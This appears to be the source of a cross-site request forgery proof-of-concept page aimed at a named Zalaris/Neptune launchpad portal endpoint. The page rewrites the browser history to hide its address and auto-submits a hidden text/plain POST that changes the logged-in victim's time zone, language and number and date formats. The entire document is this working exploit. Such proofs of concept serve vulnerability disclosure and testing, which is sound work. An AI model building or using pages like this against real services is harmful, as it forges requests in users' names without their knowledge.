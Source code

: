 <html><body><script>history.pushState('', '', '/')</script><form action="https://testportal.zalaris.com/neptune/zalaris_launchpad_standard?ajax_id=USER_DEFAULT_UPDATE&ajax_applid=ZALARIS_LAUNCHPAD_STANDARD&sap-client=510&dxp=21100006&field_id=01109&ajax_value=language" method="POST" enctype="text/plain"><input type="hidden" name="&#123;&quot;WA&#95;USER&#95;DEFAULT&quot;&#58;&#123;&quot;EDIT&quot;&#58;true&#44;&quot;TZONE&quot;&#58;&quot;RUS05&quot;&#44;&quot;TZONE&#95;DESCRIPT&quot;&#58;&quot;Russia&#32;&#40;UTC&#43;05&#41;&quot;&#44;&quot;NUMBER&#95;GROUPING&quot;&#58;&quot;&#95;&quot;&#44;&quot;NUMBER&#95;DECIMAL&quot;&#58;&quot;&#44;&quot;&#44;&quot;DCPFM&quot;&#58;&quot;Y&quot;&#44;&quot;TIMEFM&quot;&#58;&quot;4&quot;&#44;&quot;LANGU&quot;&#58;&quot;D&quot;&#125;&#125;" value="" /><input type="submit" value="Submit request" /></form><script>document.forms[0].submit();

    </script>

  </body>

</html>
